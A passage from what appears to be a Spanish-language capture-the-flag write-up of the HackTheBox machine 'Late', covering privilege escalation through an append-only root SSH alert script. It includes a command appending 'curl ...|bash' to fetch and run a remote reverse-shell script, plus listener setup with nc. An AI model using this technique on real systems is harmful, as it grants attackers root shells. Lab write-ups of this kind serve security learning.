 Lo que nos dicen esas letras (`a` y `e`) es:

* `a` = append only = solamente deja agregar contenido, más no borrar nada.
* `e` = [extents](https://es.wikipedia.org/wiki/Ext4#Extents) = permite fragmentar el contenido.

Jmmm, pues el interesante es el atributo `a`, según la descripción podemos **agregar** contenido, más no **modificarlo**, así que perfecto, probemos un simple `echo "hola" >> archivo` a ver si es verdad que lo agrega, si si, tamos ganaos!

```bash
svc_acc@late:~$ echo "hola" >> /usr/local/sbin/ssh-alert.sh
```

Yyyy:

```bash
svc_acc@late:~$ cat /usr/local/sbin/ssh-alert.sh
...
if [ ${PAM_TYPE} = "open_session" ]; then
        echo "Subject:${SUBJECT} ${BODY}" | /usr/sbin/sendmail ${RECIPIENT}
fi


hola
```

OJITOOOOO! No, pues agreguemos una reverse shell (como la que usamos para el SSTI) y obtengamos eso (:

```bash
svc_acc@late:~$ echo "curl http://10.10.14.129:8000/rev.sh|bash" >> /usr/local/sbin/ssh-alert.sh
```

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463bash_svcacc_echoCURLtoREVSHyCATsshSCRIPT.png" style="width: 100%;"/>

Levantamos tanto servidor web como puerto para la reverse shell:

```bash
❱ python3 -m http.server
❱ nc -lvp 4433
```

Y ahora solo falta entablar sesión **SSH**:

```bash
❱ ssh svc_acc@10.10.11.156 -i svc_acc.id_rsa
```

Ejecutamos, se queda pensando, llega la petición al servidor web, pasa un momentito yyyyyyyyyyyyyy:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463bash_root_REVSH.png" style="width: 100%;"/>

TAMOU dentro! 🎠 🚀 📣 🚣

La hacemos bonita y vemos las flags:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/late/463flags.png" style="width: 100%;"/>

Nos fui ~

